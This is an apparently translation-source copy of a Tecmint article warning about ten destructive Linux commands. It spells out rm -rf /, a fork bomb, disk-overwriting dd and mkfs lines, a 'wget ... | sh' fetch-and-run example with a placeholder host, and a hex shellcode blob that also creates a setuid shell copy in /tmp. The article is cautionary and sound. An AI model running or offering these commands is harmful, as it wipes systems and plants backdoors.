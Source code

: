 10 Most Dangerous Commands – You Should Never Execute on Linux
================================================================================
Linux command line is productive, useful and interesting but sometimes it may be very much dangerous specially when you are not sure what you are doing. This article is not intended to make you furious of **Linux** or **Linux command** line. We just want to make you aware of some of the commands which you should think twice before you execute them.

![](http://www.tecmint.com/wp-content/uploads/2013/11/Dangerous-Linux-Commands.png)

### 1. rm -rf Command ###

The **rm -rf** command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with **rm command** are.

- **rm** command in Linux is used to delete files.
- **rm -r** command deletes the folder recursively, even the empty folder.
- **rm -f** command removes ‘Read only File’ without asking.
- **rm -rf /** : Force deletion of everything in root directory.
- **rm -rf ** *  : Force deletion of everything in current directory/working directory.
- **rm -rf .** : Force deletion of current folder and sub folders.

Hence, be careful when you are executing **rm -rf** command. To overcome accidental delete of file by ‘**rm**‘ command, create an alias of ‘**rm**‘ command as ‘**rm -i**‘ in “**.bashrc**” file, it will ask you to confirm every deletion.

### 2. :(){:|:&};: Command ###

The above is actually a **fork bomb**. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.

    :(){:|:&};:

### 3. command > /dev/sda ###

The above command writes the output of ‘**command**‘ on the block **/dev/sda**. The above command writes raw data and all the files on the block will be replaced with raw data, thus resulting in total loss of data on the block.

### 4. mv folder /dev/null ###

The above command will move ‘**folder**‘ to **/dev/null**. In Linux **/dev/null** or **null** device is a special file that discards all the data written to it and reports that write operation succeed.

    # mv /home/user/* /dev/null

The above command will move all the contents of a **User** directory to **/dev/null**, which literally means everything there was sent to **blackhole (null)**.

### 5. wget http://malicious_source -O- | sh ###

The above command will download a script from a malicious source and then execute it. Wget command will download the script and **sh** will execute the downloaded script.

**Note**: You should be very much aware of the source from where you are downloading packages and scripts. Only use those scripts/applications which is downloaded from a trusted source.

### 6. mkfs.ext3 /dev/sda ###

The above command will format the block ‘**sda**’ and you would surely be knowing that after execution of the above command your Block (**Hard Disk Drive**) would be new, **BRAND NEW!** Without any data, leaving your system into unrecoverable stage.

### 7. > file ###

The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> **xt.conf**” will write the configuration file or any other system or configuration file.

### 8. ^foo^bar ###

This command, as described in our [10 Lesser Known Linux Commands][1], is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t took the risk of thoroughly checking the change in original command using **^foo^bar** command.

### 9. dd if=/dev/random of=/dev/sda ###

The above command will wipe out the block **sda** and write random junk data to the block. Of-course! Your system would be left at inconsistent and unrecoverable stage.

### 10. Hidden the Command ###

The below command is nothing but the first command above (**rm -rf**). Here the codes are hidden in **hex** so that an ignorant user may be fooled. Running the below code in your terminal will wipe your **root** partition.

This command here shows that the threat may be hidden and not normally detectable sometimes. You must be aware of what you are doing and what would be the result. Don’t compile/run codes from an unknown source.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;

**Note**: Don’t execute any of the above command in your **Linux** terminal or shell or of your friend or school computer. If you want to test them, run them in virtual machine. Any in-consistence or data loss, due to the execution of above command will break your system down for which, neither the **Author** of the article nor **Tecmint** is responsible.

That’s all for now. I will soon be here again with another interesting article you people will love to read. Till then Stay tuned and connected to **Tecmint**. If you know any other such **Dangerous Linux Commands** and you would like us to add to the list, please tell us via comment section and don’t forgot to give your value-able feedback.


--------------------------------------------------------------------------------

via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/

译者：[译者ID](https://github.com/译者ID) 校对：[校对者ID](https://github.com/校对者ID)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出

[1]:http://www.tecmint.com/10-lesser-known-commands-for-linux-part-3/
[2]:
[3]:
[4]:
[5]:
[6]:
[7]:
[8]:
[9]:
[10]:
[11]:
[12]: